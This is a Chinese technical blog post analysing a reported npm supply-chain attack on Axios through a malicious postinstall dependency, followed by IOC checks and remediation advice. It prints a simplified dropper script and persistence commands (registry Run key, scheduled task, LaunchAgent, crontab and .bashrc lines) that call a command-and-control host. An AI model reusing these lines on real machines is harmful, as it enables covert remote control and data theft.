




# Axios 供应链攻击深度解析：当你在 npm install 时，木马已经落地

> 一场针对开发工具链的精准打击，从 npm 到 Windows、macOS、Linux 的全平台渗透

## 写在前面

2026年3月30日，npm 生态经历了一次教科书级别的软件供应链攻击。知名 HTTP 客户端库 **Axios** 的两个版本（`1.14.1` 和 `0.30.4`）被恶意篡改，攻击者通过盗取维护者账户，在未修改 Axios 核心代码的情况下，通过依赖投毒的方式向开发者环境植入远控木马。

这不是一次普通的漏洞利用——攻击者没有改 Axios 的代码，只是在 `package.json` 里加了一个你从没见过的依赖包 `plain-crypto-js`。当你运行 `npm install` 的瞬间，木马已经落地并自动清理了所有痕迹。

这就好像你去五金店买了一把锁，品牌对、包装对、外观对，但里面被人换成了带后门的。你装上了，用着正常，别人随时能开你家门。普通漏洞是锁有缺陷，换一把就行。这次是锁在到你手里之前就被掉包了。

本文将完整拆解这次攻击的每一个环节：攻击者如何获取权限、恶意代码如何运作、不同平台的攻击链有何差异，以及如果你中招了该怎么办。

---

## 一、攻击全景：一场精心策划的“掉包”

### 1.1 攻击时间线

| 时间 | 事件 |
| :--- | :--- |
| 3月29日 | 攻击者上传 `plain-crypto-js@4.2.0`（干净版本，建立信誉） |
| 3月30日 23:59 | 攻击者发布 `plain-crypto-js@4.2.1`（增加 `postinstall` 恶意脚本） |
| 3月31日 00:21 | 攻击者利用被黑的 Axios 维护者账户，发布 `axios@1.14.1` 和 `0.30.4` |
| 3月31日 00:39 | 安全公司检测到异常并开始分析 |
| 3月31日 02:00+ | npm 官方下架恶意版本 |

### 1.2 攻击者获取了什么权限？

攻击者**没有**入侵 Axios 的 GitHub 仓库，而是直接攻破了主要维护者 **jasonsaayman** 的 npm 账户：

- **获取凭证**：可能通过钓鱼或窃取长期有效的 npm 经典访问令牌
- **锁定账户**：将维护者邮箱改为 `ifstap@proton.me`，切断恢复途径
- **绕过审计**：利用 npm CLI 直接发布，完全绕过了 GitHub Actions CI/CD

**关键点**：npm 生态的一个重要特性是——**发布包不需要 GitHub 权限**。这意味着即使 GitHub 仓库是干净的，npm 上发布的包也可能完全不同。

---

## 二、恶意代码的完整拆解

### 2.1 攻击入口：`postinstall` 生命周期钩子

`postinstall` 是 npm 官方支持的**生命周期脚本**，在包被安装后自动执行。攻击者在 `plain-crypto-js@4.2.1` 的 `package.json` 中添加了：

```json
{
  "scripts": {
    "postinstall": "node setup.js"
  }
}
```

当开发者运行 `npm install` 时，npm 会自动执行这个脚本，完全无感。

### 2.2 `setup.js` 的核心逻辑

`setup.js` 是经过多层混淆的投放器（Dropper），它的主要工作：

```javascript
const os = require('os');
const fs = require('fs');
const cp = require('child_process');

// 解码 C2 地址（通过 XOR + Base64）
const C2_URL = "http://sfrclak.com:8000/6202033";
const platform = os.platform();

if (platform === 'darwin') {
    // macOS 攻击链
    downloadAndExecMacOS();
} else if (platform === 'win32') {
    // Windows 攻击链
    downloadAndExecWindows();
} else {
    // Linux 攻击链
    downloadAndExecLinux();
}

// 3秒后自我清理
setTimeout(() => {
    fs.unlinkSync(__filename);           // 删除 setup.js
    fs.unlinkSync('package.json');       // 删除原 package.json
    fs.renameSync('package.md', 'package.json'); // 替换为干净版本
}, 3000);
```

### 2.3 混淆技术详解

攻击者使用了多层混淆来绕过静态检测：

1. **字符串反转**：`"eliftuo"` → `"outfile"`
2. **Base64 编码**：进一步隐藏真实字符串
3. **XOR 加密**：使用密钥 `OrDeR_7077` 进行异或运算
4. **动态解码**：运行时才解码出真实的 C2 地址和命令

这种混淆方式让安全扫描工具难以通过特征码识别恶意内容。

---

## 三、跨平台攻击链详解

### 3.1 Windows 攻击链



**关键文件**：
- `%PROGRAMDATA%\wt.exe`：伪装成 Windows 终端的 PowerShell 副本
- `%TEMP%\6202033.ps1`：第二阶段 PowerShell 木马
- `%TEMP%\6202033.vbs`：VBScript 启动器

**持久化机制**：
```powershell
# 注册表 Run 键
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
    -Name "WindowsUpdate" -Value "%PROGRAMDATA%\wt.exe -w hidden -ep bypass -File %TEMP%\6202033.ps1"

# 计划任务（每5分钟）
schtasks /create /tn "MicrosoftEdgeUpdate" /tr "%PROGRAMDATA%\wt.exe ..." /sc minute /mo 5
```

**技术亮点**：
- **绕过 AMSI**：通过反射禁用反恶意软件扫描接口
- **内存执行**：PowerShell 脚本不在磁盘落地，直接在内存中运行
- **无窗口**：`-w hidden` 参数完全隐藏执行窗口

### 3.2 macOS 攻击链



**关键文件**：
- `~/Library/Caches/com.apple.act.mond`：Mach-O 二进制木马
- `~/Library/LaunchAgents/com.apple.act.plist`：LaunchAgent 持久化配置

**持久化 Plist 内容**：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "...">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.act</string>
    <key>ProgramArguments</key>
    <array>
        <string>/Users/username/Library/Caches/com.apple.act.mond</string>
        <string>http://sfrclak.com:8000/6202033</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
</dict>
</plist>
```

**技术亮点**：
- **通用二进制**：同时支持 Intel 和 Apple Silicon
- **反调试**：调用 `ptrace(PT_DENY_ATTACH)` 阻止调试器附加
- **代码签名**：使用有效或伪造的开发者证书，绕过 Gatekeeper

### 3.3 Linux 攻击链



**关键文件**：
- `/tmp/ld.py`：Python 木马
- `~/.config/systemd/user/system-update.service`：systemd 持久化

**持久化机制**：
```bash
# crontab（每5分钟）
*/5 * * * * python3 /tmp/ld.py http://sfrclak.com:8000/6202033

# systemd user service
systemctl --user enable system-update.service
systemctl --user start system-update.service

# .bashrc
echo "python3 /tmp/ld.py http://sfrclak.com:8000/6202033 &" >> ~/.bashrc
```

**技术亮点**：
- **三层持久化**：crontab、systemd、.bashrc 互为备份
- **伪装**：service 名称伪装成 `system-update`，看似系统服务

---

## 四、关于权限的深入分析

### 4.1 普通用户能执行这些操作吗？

很多读者会问：`chmod 770 /Library/Caches/com.apple.act.mond` 这条命令需要 root 权限，普通用户能执行吗？

**答案是：不能直接执行，但攻击者有备选方案。**

攻击者在 `setup.js` 中会先检测当前用户权限：

```javascript
const uid = process.getuid();  // macOS/Linux
if (uid === 0) {
    // root 用户：写入系统级目录
    targetPath = '/Library/Caches/com.apple.act.mond';
} else {
    // 普通用户：写入用户级目录
    targetPath = `${os.homedir()}/Library/Caches/com.apple.act.mond`;
}
```

对于普通用户（UID 501），实际写入路径是 `~/Library/Caches/`，这个目录当前用户完全可写，**不需要任何权限提升**。

### 4.2 如何判断自己是普通用户还是 root？

```bash
id -u
# 输出 0 → root 用户
# 输出 501 → 普通用户（macOS）
# 输出 1000+ → 普通用户（Linux）
```

### 4.3 普通用户的持久化能力

普通用户虽然不能写入系统级目录，但以下位置完全可控：

| 位置 | 用途 |
| :--- | :--- |
| `~/Library/Caches/` | 用户级缓存目录 |
| `~/Library/LaunchAgents/` | 用户级开机启动项 |
| `~/.bashrc` / `~/.zshrc` | Shell 启动脚本 |
| `crontab -e` | 用户级定时任务 |

这些足够让木马在每次用户登录时自动运行。

---

## 五、为什么 Tree Shaking 救不了你？

### 5.1 Tree Shaking 的工作原理

Tree shaking 是**打包工具**（Webpack、Rollup、Vite）的功能，发生在**构建阶段**，它分析代码中哪些导出被实际引用，剔除未被引用的代码。

### 5.2 为什么对这次攻击无效？



**关键点**：
1. **执行时序**：`postinstall` 在 `npm install` 阶段执行，远早于 tree shaking
2. **作用域不同**：npm 管理依赖下载，打包工具管理代码优化，两者独立
3. **依赖未被引用**：`plain-crypto-js` 从未在 Axios 代码中被 `import` 或 `require`，它根本不会进入打包工具的模块图

**结论**：当 tree shaking 开始工作时，木马已经运行完毕并自我删除了。

---

## 六、受影响范围分析

### 6.1 按项目类型划分

| 项目类型 | 是否受影响 | 原因 |
| :--- | :--- | :--- |
| **前端项目（浏览器）** | ❌ 不受影响 | `npm install` 只在开发阶段，最终部署的是打包后的静态文件 |
| **Node.js 服务端** | ✅ 受影响 | 生产环境会执行 `npm install`，`node_modules` 完整保留 |
| **开发者本地环境** | ✅ 受影响 | 本地运行 `npm install` 时木马立即运行 |
| **CI/CD 服务器** | ✅ 受影响 | CI 任务执行 `npm ci` 时会触发恶意脚本 |

### 6.2 风险等级总结

| 环境 | 是否执行 `npm install` | 风险等级 |
| :--- | :--- | :--- |
| 开发者本地 | ✅ 是 | 🔴 高危（凭证泄露、横向移动） |
| CI/CD 服务器 | ✅ 是 | 🔴 高危（生产密钥泄露） |
| Node.js 生产服务器 | ✅ 是 | 🔴 高危（服务器被控） |
| 前端构建产物 | ❌ 否 | 🟢 安全 |
| 最终用户浏览器 | ❌ 否 | 🟢 安全 |

---

## 七、如果你中招了，该怎么办？

### 7.1 立即检查版本

```bash
# 检查项目中的 axios 版本
npm list axios

# 或查看 package-lock.json
grep "axios" package-lock.json
```

**恶意版本**：
- `axios@1.14.1`
- `axios@0.30.4`

### 7.2 降级到安全版本

```bash
npm install axios@1.14.0   # 或 0.30.3
```

### 7.3 清除并重新安装依赖

```bash
rm -rf node_modules package-lock.json
npm install
```

### 7.4 检查失陷指标（IOC）

#### Windows
```powershell
# 检查可疑文件
Test-Path "$env:PROGRAMDATA\wt.exe"
Test-Path "$env:TEMP\6202033.ps1"

# 检查注册表 Run 键
Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
```

#### macOS
```bash
# 检查可疑文件
ls -la ~/Library/Caches/com.apple.act.mond
ls -la ~/Library/LaunchAgents/com.apple.act.plist

# 检查 LaunchAgents
launchctl list | grep com.apple.act
```

#### Linux
```bash
# 检查可疑文件
ls -la /tmp/ld.py
ls -la ~/.config/systemd/user/system-update.service

# 检查 crontab
crontab -l

# 检查 .bashrc
grep ld.py ~/.bashrc
```

### 7.5 紧急措施

如果发现感染迹象：

1. **立即轮换凭证**：所有在该机器上暴露过的密码、SSH 密钥、云服务 AK/SK、npm 令牌
2. **断开网络**：隔离受感染机器
3. **审查 CI/CD**：检查流水线日志，确认是否有凭证被窃取
4. **通知安全团队**：如果处于企业环境，立即通报

---

## 八、技术栈总结：攻击者的完整武器库

这次攻击展现了一个高级攻击组织的技术素养，他们使用了多种编程语言，每种都服务于特定目标：

| 语言 | 攻击阶段 | 平台 | 核心目的 |
| :--- | :--- | :--- | :--- |
| **JavaScript (Node.js)** | 入口投放 | 全平台 | 利用 npm 生态，触发 `postinstall` |
| **VBScript** | 载荷启动器 | Windows | 静默启动 PowerShell |
| **PowerShell** | 核心木马 | Windows | C2 通信、命令执行、数据窃取 |
| **AppleScript** | 载荷启动器 | macOS | 下载并执行 Mach-O 二进制 |
| **C/C++** | 核心木马 | macOS | 持久化、键盘记录、屏幕截图 |
| **Python** | 核心木马 | Linux | C2 通信、命令执行、文件窃取 |
| **Bash** | 辅助脚本 | Linux | 快速下载、持久化 |

**这不再是普通的前端开发者能完成的工作，而是一个具备全栈渗透能力、精通多种编程语言、熟悉各操作系统底层机制的高级攻击团队。**

---

## 九、总结：这次攻击的警示意义

### 9.1 核心教训

1. **npm 和 GitHub 的信任断层**：代码开源并不代表你安装的包就是那个代码。GitHub 仓库和 npm 仓库是完全独立的系统。

2. **维护者账户是单点故障**：一个核心维护者的 npm 账户权限，等同于整个生态的“万能钥匙”。

3. **`postinstall` 是双刃剑**：这个便捷的生命周期钩子，也成了供应链攻击最直接的入口。

4. **开发工具链是最薄弱的环节**：攻击者瞄准的不是最终产品，而是开发者本地环境和 CI/CD 系统。

### 9.2 防护建议

| 措施 | 说明 |
| :--- | :--- |
| **使用锁文件** | `package-lock.json` 固定版本，避免自动拉取恶意版本 |
| **启用 npm 签名验证** | 配置 npm 验证包的完整性 |
| **最小权限原则** | 开发环境不使用 `sudo`，CI 使用非 root 用户 |
| **依赖审计工具** | 使用 Socket、Snyk 等工具扫描依赖风险 |
| **私有 npm 镜像** | 企业级部署使用私有镜像，审核所有新包 |
| **定期轮换凭证** | npm 令牌、云服务密钥定期更换 |

---

## 写在最后

这次 Axios 供应链攻击是 2026 年最严重的开源生态安全事件之一。它揭示了一个残酷的现实：在软件供应链中，最薄弱的环节往往是开发者自己——不是技术能力问题，而是整个生态的信任模型存在结构性缺陷。

当我们在终端里敲下 `npm install` 的那一刻，我们默认相信 npm registry 上的包是安全的。但这次攻击证明：**信任需要被验证，而不是被假设。**

希望本文能帮助读者理解这次攻击的完整技术细节，并在未来的开发中提高警惕。安全不是一个终点，而是一个持续的过程。

---

*本文基于安全公司 StepSecurity、Socket.dev、Mend.io、Elastic 和 Bitdefender 的技术报告整理编写。*